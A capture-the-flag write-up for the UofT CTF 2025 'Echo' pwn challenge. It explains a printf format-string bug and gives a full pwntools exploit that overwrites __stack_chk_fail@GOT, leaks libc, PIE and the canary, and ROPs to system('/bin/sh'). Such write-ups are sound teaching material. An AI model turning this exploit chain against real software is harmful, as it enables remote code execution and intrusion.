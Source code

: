 # Echo -UofT CTF 2025 (Pwn)
Author : White  
Description : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?  
## 1. Vulnerability Summary
**Protection**  
| RELRO         | Canary | NX   | PIE  |
|---------------|--------|------|------|
| Partial RELRO | Yes    | Yes  | Yes  |  

- The program accepts unrestricted input to `printf`, resulting in a format string vulnerability.
- The buffer begins at `rsp + 7`.
- The stack canary resides at `rbp + 8`, allowing precisely 1 byte of overflow without triggering detection.
- The `__stack_chk_fail@GOT` entry can be overwritten via format string write.
## 2. Exploitation Strategy
| Step            | Detail                                                        |
|-----------------|---------------------------------------------------------------|
| GOT Overwrite   | `__stack_chk_fail@GOT` → `vuln()` using FSB (Partial Overwrite)     |
| Info Leak       | libc, PIE, stack canary via FSB          |
| ROP             | Injected after bypassing canary; uses libc gadgets            |
## 3. Exploit Code
```python
from pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
